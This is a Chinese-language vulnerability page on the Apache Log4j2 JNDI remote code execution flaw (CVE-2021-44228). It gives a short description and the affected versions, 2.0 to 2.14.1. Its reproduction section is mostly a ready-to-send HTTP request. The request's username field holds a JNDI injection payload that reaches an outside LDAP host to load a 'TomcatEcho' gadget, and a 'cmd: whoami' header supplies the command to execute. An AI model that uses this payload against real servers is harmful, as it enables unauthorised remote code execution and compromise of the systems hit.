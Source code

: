 ```yaml
---
title: Apache Log4j2 JNDI 远程命令执行漏洞 CVE-2021-44228
---
```


# Apache Log4j2 JNDI 远程命令执行漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2是一款使用非常广泛的Java日志框架。2021年12月9日，Apache Log4j2爆出存在远程代码执行漏洞，由于Apache Log4j2广泛地应用在各种Web程序中，该漏洞涉及用户量较大，危害性非常之高，漏洞影响版本为2.0~2.14.1。

## 漏洞影响

<a-checkbox checked>2.0~2.14.1</a-checkbox></br>

<a-checkbox checked>使用此依赖的JAVA应用</a-checkbox></br>

## 网络测绘

<a-checkbox checked>暂无确切语法</a-checkbox></br>

## 漏洞复现

参数点发送请求

![img](../../../.vuepress/public/img/1639112758169-0e01d095-78c9-475c-94bc-9a05ae161b7f.png)

```go
POST /api/2.0/login HTTP/1.1
Host:
Cookie: JSESSIONID_AV=567CEDA964EE4D5DA8B7FC8C90912B01
Content-Length: 86
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
cmd: whoami
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"${jndi:ldap://xxx.xxx.xxx.xxx:1389/Basic/TomcatEcho}","password":"admin"}
```

![img](../../../.vuepress/public/img/1639112868435-e938cac8-d736-466c-acc0-f94fae3ef688.png)